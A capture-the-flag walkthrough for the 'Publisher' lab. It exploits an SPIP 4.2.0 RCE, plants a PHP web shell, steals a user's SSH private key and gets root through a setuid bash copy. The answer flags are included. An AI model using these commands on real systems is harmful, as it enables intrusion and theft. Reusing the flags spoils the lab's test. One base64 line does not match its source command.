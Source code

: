 ## Room Description
The "**Publisher**" CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.
## Solution
![screenshot_1](screenshots/ss_1.png)
#### nmap
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)  
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)  
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: Publisher's Pulse: SPIP Insights & Tips
```

#### dirsearch
```
/images/
/spip/
```

#### Exploiting
Site has been published with **SPIP 4.2.0**
On *exploit-db* i found this [exploit](https://www.exploit-db.com/exploits/51536)

So, i'd recommend to set up a virtual environment for running exploit
```bash
mv 51536.py spip_rce.py # rename executable file
python3 -m venv publisher_venv # create a venv
source publisher_venv/bin/activate # activate venv
pip3 install bs4 # install libraries
pip3 install requests==2.28.2 # install libraries
python3 spip_rce.py -u http://10.10.163.246 -c whoami -v # test exploiting
```

Also we need to create a file with *RCE* (for comfortable exploiting)
```bash
echo "<?php system($_GET["cmd"]); ?>" | base64
PD9waHAgc3lzdGVtKCk7ID8+Cg==
```

```bash
python3 spip_rce.py -u http://10.10.163.246/spip -c 'echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+C  
g== | base64 -d > rce.php' -v
```

Now we can execute code with curl:
```bash
curl "http://10.10.163.246/spip/rce.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Find our `user.txt` flag:
```bash
curl "http://10.10.163.246/spip/rce.php?cmd=ls%20-la%20%2Fhome"
curl "http://10.10.163.246/spip/rce.php?cmd=cat%20%2Fhome%2Fthink%2Fuser.txt"
```
`fa229046d44eda6a3598c73ad96f4ca5`
#### Stabilize shell (ssh)
Target machine has a private ssh, so we can connect via ssh with it
```bash
curl "http://10.10.163.246/spip/rce.php?cmd=cat%20%2Fhome%2Fthink%2F.ssh%2Fid_rsa" > id_rsa
chmod 400 id_rsa
ssh -i id_rsa think@10.10.163.246
```
#### root.txt Flag
Use command `find / -perm -4000 2>/dev/null` to see what command we are able to run with user's permissions
```
/tmp/default  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/openssh/ssh-keysign  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/xorg/Xorg.wrap  
/usr/sbin/pppd  
/usr/sbin/run_container  
/usr/bin/at  
/usr/bin/fusermount  
/usr/bin/gpasswd  
/usr/bin/chfn  
/usr/bin/sudo  
/usr/bin/chsh  
/usr/bin/passwd  
/usr/bin/mount  
/usr/bin/su  
/usr/bin/newgrp  
/usr/bin/pkexec  
/usr/bin/umount
```

`/usr/sbin/run_container` is what we are interested in

```bash
think@publisher:~$ /usr/sbin/run_container  
List of Docker containers:  
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 2 hours  
  
Enter the ID of the container or leave blank to create a new one:    
/opt/run_container.sh: line 16: validate_container_id: command not found  
  
OPTIONS:  
1) Start Container  
2) Stop Container  
3) Restart Container  
4) Create Container  
5) Quit  
Choose an action for a container: 5  
Exiting...
```

We see, it runs `/opt/run_container.sh`. So we need to change this file
```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/default\nchmod +s /tmp/default' > /opt/run_container.sh
cd /opt
run_container
ls -la /tmp # default is the copy of /bin/bash with root priv
cd /tmp
./default -p
cat /root/root.txt
```
## Questions
***Question #1.*** What is the user flag?
*Answer*: **fa229046d44eda6a3598c73ad96f4ca5**
**Question #2.** What is the root flag?
*Answer:* **3a4225cc9e85709adda6ef55d6a4f2ca**

---
### Resources
- **Worldist** (*dirsearch*) - https://github.com/danielmiessler/SecLists
- **Exploit** (*SPIP v4.2.0 - RCE*) - https://www.exploit-db.com/exploits/51536

